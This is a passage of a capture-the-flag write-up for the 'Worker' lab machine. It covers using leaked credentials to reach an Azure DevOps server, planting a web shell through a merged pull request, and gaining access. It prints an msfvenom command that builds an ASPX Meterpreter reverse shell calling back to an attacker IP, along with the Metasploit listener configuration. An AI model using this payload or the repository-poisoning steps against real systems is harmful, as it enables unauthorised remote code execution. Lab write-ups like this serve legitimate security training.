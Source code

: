 This time the password is here. We can connect with those credentials to
http://devops.worker.htb/.

## Exploiting Azure DevOps

We have access to a repository http://devops.worker.htb/ekenas/SmartHotel360

Look at the different projects we have access to:

A lot of them are matching the sub-domains we found earlier

```
alpha.worker.htb
cartoon.worker.htb
lens.worker.htb
solid-state.worker.htb
spectral.worker.htb
story.worker.htb
```

All those domains are hosting a web application and we can control the source,
so we'll be able to upload a reverse shell to the master branch and access it
wia the web application.

First, let's generate an ASPX reverse shell:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f aspx > cyfun.aspx
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 510 (iteration=0)
generic/none chosen with final size 510
Payload size: 510 bytes
Final size of aspx file: 3663 bytes
```

Here a few steps I won't details too much.

1. Select a project, eg. Alpha
2. Create a new branch
3. Upload the reverse shell to the branch (eg. in assets folder)
4. Create a PR
5. Match merge policies: approve and link a work item
6. Complete the PR (merge)

Start a listener:

```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.174     yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```